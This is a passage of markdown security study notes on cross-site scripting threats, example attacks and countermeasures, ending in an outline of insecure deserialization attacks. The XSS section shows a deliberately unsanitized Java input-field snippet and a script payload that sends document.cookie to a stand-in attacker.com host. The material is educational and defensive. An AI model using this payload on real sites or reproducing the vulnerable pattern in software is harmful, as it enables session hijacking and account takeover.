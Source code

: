 ### Threats of Cross-Site Scripting (XSS)

- Session stealing
- Account takeover
- [MFA](./../01-introduction/identity-access-management-iam.md#multi-factor-authentication-mfa) bypass
- DOM node replacement or defacement (such as trojan login panels)
- Attacks against the user's browser such as malicious software download
- Key logging

### Example attacks for Cross-Site Scripting (XSS)

- Application sets value of an HTML parameter to an input without proper validation/sanitization

  ```html
    page += "<input name='credit-card' type='TEXT'
    value='" + request.getParameter("CC") + "'>";
  ```

- Attacker can then modify CC parameter in browser to: `'><script>document.location=
'http://attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.`
- More examples are at [XSS filter evasion cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
  - ❗ However must of them gets detected and filtered by Chrome or Firefox.
  - 💡 Can test if the injection will be successful on e.g. [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA)

### Countermeasures for Cross-Site Scripting (XSS)

- Enable Content Security Policy (CSP) as a defense-in-depth mitigating control against XSS.
  - Only allows executing scripts from permitted domains.
- Filter input on arrival
- Set `HttpOnly` flag set for session cookies so they cannot be reached through JavaScript.
- 📝 Escape HTML code
  - Escape untrusted HTTP request data based on the context in the HTML output
  - Use frameworks that automatically escape XSS by design
  - Apply context-sensitive encoding
    - Encoding of HTML and JavaScript is different when modifying them based on user data

## Insecure deserialization

- Exploited by injecting malicious code into serialized data.
- Allows attacker to gain access through execution of malicious serialized data.
- Serialization can be used in e.g. caches, databases, HTTP cookies, authentication tokens..

### Attacks for insecure deserialization

- Object and data structure related attacks
  - Attacker modifies application logic or achieves remote code execution
- Data tampering attacks
  - E.g. access-control-related attacks where data content is changed
    - E.g. changing `role: user` to `role: admin`
  - Other serialization attack
